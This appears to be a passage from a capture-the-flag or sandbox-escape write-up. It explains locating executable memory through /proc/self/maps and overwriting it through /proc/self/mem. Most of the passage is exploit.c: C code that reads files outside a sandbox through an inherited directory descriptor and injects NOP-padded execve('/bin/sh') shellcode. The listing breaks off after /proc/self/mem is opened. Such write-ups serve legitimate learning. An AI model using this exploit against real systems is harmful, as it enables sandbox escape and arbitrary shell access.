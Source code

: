 We can parse this output to get the offset of the executable area, then we can
write to /proc/self/mem at that offset with our shellcode prepended by a padding
of nops.

exploit.c
```c
#define _POSIX1_SOURCE 2
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/ioctl.h>
#include <fcntl.h>


/* Read a file outside the sandbox */
char* read_file(char* filename){
  unsigned long length;
  int fd = openat(1, filename, O_RDONLY);
  
  length = lseek(fd, 0, SEEK_END)+1;
  lseek(fd, 0, SEEK_SET);

  if(length == 0){
    length = 6000;
  }

  char *buf = malloc(length);

  read(fd, buf, length);
  write(1, buf, length);
  
  return buf;
}


/* execve("/bin/sh",0,0); */
char* generate_payload(){
  char* payload = malloc(0x1000);
  memset(payload, '\x90', 0x1000);

  char* shellcode = "H\xc7\xc0;\x00\x00\x00H\xbb/bin/sh\x00SH\x89\xe7H1\xf6H1\xd2\x0f\x05";
  memcpy(payload+(0x1000-30), shellcode, 29);

  return payload;
}

int main() {
  unsigned long x;
  char* buf;

  /* Read maps and parse executable offset */
  buf = read_file("/proc/self/maps");

  buf[98+13] = '\0';
  x = (unsigned long)strtol(buf+98, NULL, 16);


  /* Write shellcode to executable memory */
  int fd = openat(1, "/proc/self/mem", O_WRONLY);
```